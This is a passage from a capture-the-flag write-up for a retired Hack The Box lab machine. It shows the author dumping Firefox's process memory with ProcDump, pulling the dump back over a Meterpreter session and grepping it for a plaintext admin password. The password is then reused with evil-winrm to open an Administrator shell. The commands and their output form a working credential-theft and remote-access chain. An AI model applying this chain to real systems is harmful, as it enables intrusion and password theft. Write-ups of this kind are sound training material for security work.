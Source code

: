     C:\Users\Chase\Documents>.\06.exe -ma 6228
    .\06.exe -ma 6228

    ProcDump v6.00 - Writes process dump files
    Copyright (C) 2009-2013 Mark Russinovich
    Sysinternals - www.sysinternals.com
    With contributions from Andrew Richards

    Writing dump file C:\Users\Chase\Documents\firefox_191106_223459.dmp ...
    Writing 293MB. Estimated time (less than) 9 seconds.
    Dump written.

    meterpreter > download firefox_191106_223459.dmp ./
    [*] Downloading: firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 1.00 MiB of 286.62 MiB (0.35%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 2.00 MiB of 286.62 MiB (0.7%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 3.00 MiB of 286.62 MiB (1.05%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 4.00 MiB of 286.62 MiB (1.4%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 5.00 MiB of 286.62 MiB (1.74%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp

We then `grep` in the dump for some password.

    :::text
    strings firefox_191106_223459.dmp | grep -i password | grep admin -i
    MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

We can then use the login and password either to connect to the support website
or to the server using the `administrator` account.

    :::text
    evil-winrm  -i 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ'

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
    50dfa<redacted>

# Wrapping up

In this machine we used evil-rm in to order to exploit the port 5985 as
I work on this machine after the forest one this was not something new (maybe
this article will be publish before the forest's one as I wait for the machine
to retire). We use a simple meterpreter and proc dump to found the password
stored in the Firefox memory.

I was a bit disappointed that there was no real exploitation of the CISCO router.
I was hoping for some pivoting from the first VM to another one use the router
or something similar.


